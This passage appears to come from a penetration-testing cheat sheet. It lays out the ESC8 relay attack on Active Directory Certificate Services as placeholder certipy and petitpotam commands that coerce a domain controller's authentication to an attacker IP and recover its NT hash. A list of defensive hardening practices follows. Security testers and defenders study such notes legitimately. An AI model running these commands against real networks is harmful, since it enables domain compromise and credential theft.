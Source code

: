 ### ESC8

An Enrollment Service has installed and enabled HTTP Web Enrollment.
Start relay server:

```
$> certipy relay -ca <certificateAuthorityIp> -template '<DomainController>'
```

Trigger authentication using petitpotam:

```
petitpotam.py '<domain>/<user>:<password>@<fqdnRhost>' <attackerIp>
```

Get NT hash of domain controller:

```
$> certipy auth -pfx '<file>.pfx' -username '<user>' -domain '<domain>' -dc-ip <domainController>
```


# Best Practice
- Check and follow up log notifications
- Disable Link-Local Multicast Name Resolution and Multicast Name Resolution protocol
- Disable LM hashes
- Enable Bitlocker
- Enable SMB-signing
- Enforce long passwords using the password policy
- Lock access to Powershell or use Constrained Language mode
- Lock screen if IDL
- Only allow signed Macros
- Perfom vulnerability scans on regularly base
- Refrain from password reuse for different accounts
- Refuse RDP connections if certificate mismatch
- Restrict Delegation of credential to remote servers
- Show file extensions by default
- Use AppLocker and application whitelisting
- Use honeypots and honeytokens
- Use Local Administrator Password Solution
- Use separate accounts for administration of different areas

